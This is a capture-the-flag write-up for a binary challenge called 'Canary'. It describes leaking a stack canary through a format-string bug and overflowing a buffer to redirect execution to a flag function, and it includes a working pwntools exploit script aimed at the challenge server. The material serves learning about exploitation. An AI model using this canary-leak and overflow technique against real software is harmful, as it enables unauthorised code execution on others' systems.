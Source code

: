 # Canary

Use pattern.py to flood the second input, put a breakpoint at the line in greet which compares the canaries. Check rax using gdb, feed that back into pattern.py, 56 bytes before canary.
Fuzz format string output until you find the one that's always 8 bytes long, that's the canary
Make a script that leaks the canary then overflows the buffer with `56 junk bytes + canary + 8 junk bytes + flag address`
##### Note: canary is just before ebp, which is why you must put 8 junk bytes to fill up ebp

```python
from pwn import *
import re
e = ELF("./canary")
p = remote("shell.actf.co" ,20701)
for _ in range(23):
            p.recvline()
p.recvline()
p.sendline("%17$lx")
flagaddr = 0x0000000000400787
output = p.recvline()
num = re.findall("Nice to meet you, (.*)!", output)
canary = int(num[0], 16)
log.info("Canary: " + hex(canary))
firstpad = 'A' * 56 #Junk before the canary
canaryString = p64(canary)
neweip = p64(flagaddr)
lastpad = 'B' * 8
payload = firstpad + canaryString + lastpad + neweip
p.sendline(payload)
log.info("Response: " + p.recvline())
```

